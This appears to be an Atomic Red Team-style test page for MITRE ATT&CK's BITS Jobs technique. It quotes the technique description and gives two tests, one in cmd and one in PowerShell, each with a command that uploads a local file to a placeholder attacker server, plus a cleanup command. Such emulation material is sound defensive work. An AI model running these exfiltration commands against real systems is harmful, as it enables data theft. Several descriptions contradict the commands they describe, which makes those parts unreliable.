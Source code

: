 # A1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)
<blockquote>Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM).(Citation: Microsoft COM)(Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool.(Citation: Microsoft BITS)(Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.(Citation: CTU BITS Malware June 2016)(Citation: Mondok Windows PiggyBack BITS May 2007)(Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).(Citation: PaloAlto UBoatRAT Nov 2017)(Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).(Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #5 - Bitsadmin Upload (cmd)](#atomic-test-5---bitsadmin-Upload-cmd)

- [Atomic Test #6 - Bitsadmin Upload (PowerShell)](#atomic-test-6---bitsadmin-Upload-powershell)



<br/>

## Atomic Test #5 - Bitsadmin Upload (cmd)
This test simulates an adversary leveraging bitsadmin.exe to upload

**Supported Platforms:** Windows

<br/>

#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| Attacker_Server | Remote file to Upload | url | 
| local_file | File path for data | String | PathToAtomicsFolder&#92;T1197&#92;src&#92;a1197.dat|
| remote_file | Remote file to Upload | url | &#92;atomic-re-team&#92;A1197&#92;src&#92;Upload&#92;A1197.dat


<br/>

#### Attack Commands: Run with `command_prompt`! 


```cmd
bitsadmin.exe /transfer /Upload /priority Foreground #{Attacker_Server}#{remote_file} #{local_file}
```

#### Cleanup Commands:
```cmd
del #{local_file} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #6 - Bitsadmin Upload (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows

<br/>

#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| Attacker_Server | Remote file to Upload | url | 
| local_file | File path for data | String | PathToAtomicsFolder&#92;T1197&#92;src&#92;a1197.dat|
| remote_file | Remote file to Upload | url | #{Attacker_Server}&#92;atomic-re-team&#92;A1197&#92;Upload&#92;A1197.dat

<br/>

#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -TransferType Upload -Source #{local_file} -Destination #{remote_file} 
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
